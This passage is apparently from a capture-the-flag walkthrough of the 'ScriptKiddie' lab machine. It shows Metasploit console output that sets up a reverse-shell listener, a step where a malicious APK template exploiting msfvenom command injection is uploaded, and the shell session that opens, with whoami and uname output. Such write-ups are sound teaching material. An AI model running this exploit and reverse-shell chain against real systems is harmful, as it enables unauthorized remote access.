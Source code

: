 Initiate listener (multi/handler)
```
msf6 exploit(unix/fileformat/metasploit_msfvenom_apk_template_cmd_injection) > use exploit/multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > show options

Module options (exploit/multi/handler):

   Name  Current Setting  Required  Description
   ----  ---------------  --------  -----------


Payload options (generic/shell_reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  10.10.14.111     yes       The listen address (an interface may be specified)
   LPORT  8989             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Wildcard Target


msf6 exploit(multi/handler) > exploit

[*] Started reverse TCP handler on 10.10.14.111:8989
```

Upload malicious template to website and generate (using 'victim' machine's IP)
![[Pasted image 20210503225209.png]]
Achieve reverse shell, find out 'who we are'
```bash
msf6 exploit(multi/handler) > exploit

[*] Started reverse TCP handler on 10.10.14.111:8989
[*] Command shell session 1 opened (10.10.14.111:8989 -> 10.10.10.226:52530) at 2021-05-03 22:47:36 -0600

whoami
kid
pwd
/home/kid/html
uname -a
Linux scriptkiddie 5.4.0-65-generic #73-Ubuntu SMP Mon Jan 18 17:25:17 UTC 2021 x86_64 x86_64 x86_64 GNU/Linux
```
